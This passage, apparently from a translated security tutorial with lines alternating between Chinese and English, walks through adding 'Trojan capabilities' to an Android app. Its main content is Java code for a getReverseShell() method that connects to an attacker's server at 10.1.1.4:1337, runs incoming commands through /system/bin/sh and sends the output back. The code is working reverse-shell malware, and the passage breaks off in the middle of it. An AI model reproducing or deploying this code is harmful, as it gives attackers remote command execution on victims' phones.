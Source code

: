     `getReverseShell`是一种方法，我们在运行应用的 Android 设备上编写获取外壳的实际代码。

4.  Next step is to write code for the `getReverseShell()` method. This is the main part of the application. We will add Trojan capabilities to the app by writing code within this method. The goal is to achieve the following functions:

    *   声明攻击者侦听连接的服务器 IP 和端口
    *   编写代码以接收攻击者发送的传入命令
    *   执行攻击者发送的命令
    *   将已执行命令的输出发送给攻击者

        ```
        private void getReverseShell() {

          Thread thread = new Thread() {

          @Override
          public void run() {

            String SERVERIP = "10.1.1.4";

            int PORT = 1337;

            try {

              InetAddress HOST = InetAddress.getByName(SERVERIP);

              Socket socket = new Socket(HOST, PORT);

              Log.d("TCP CONNECTION", String.format("Connecting to %s:%d (TCP)", HOST, PORT));

              while (true) {

                out = new PrintWriter(new BufferedWriter(new OutputStreamWriter(socket.getOutputStream())), true);

                in = new BufferedReader(new InputStreamReader(socket.getInputStream()));

                String command = in.readLine();

                Process process = Runtime.getRuntime().exec(new String[]{"/system/bin/sh", "-c", command});

                BufferedReader reader = new BufferedReader(
                  new InputStreamReader(process.getInputStream()));
                  int read;
                  char[] buffer = new char[4096];
                  StringBuffer output = new StringBuffer();
                  while ((read = reader.read(buffer)) > 0) {
                    output.append(buffer, 0, read);
                  }
                  reader.close();

                  String commandoutput = output.toString();

                  process.waitFor();

                  if (commandoutput != null) {

                    sendOutput(commandoutput);

                   }
                   out = null;
